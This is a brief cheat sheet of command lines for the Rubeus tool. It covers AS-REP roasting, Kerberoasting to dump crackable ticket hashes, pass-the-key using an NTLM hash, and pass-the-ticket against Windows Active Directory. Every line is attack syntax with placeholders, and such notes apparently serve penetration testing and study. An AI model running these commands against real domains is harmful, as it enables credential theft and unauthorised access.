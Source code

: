 # Rubeus

### Source

- https://github.com/GhostPack/Rubeus

Review the opsec notes before compiling the program in visual studio. 

### ASREProasting:

chek for users in the current domain:

- Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

### Kerberoasting:

- Rubeus.exe kerberoast /outfile:<output_TGSs_file>

- Rubeus.exe kerberoast /outfile:hashes.txt [/spn:"SID-VALUE"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] 

### Pass the key (PTK):

- .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt


### Using the ticket on a Windows target: 

- Rubeus.exe ptt /ticket:<ticket_kirbi_file>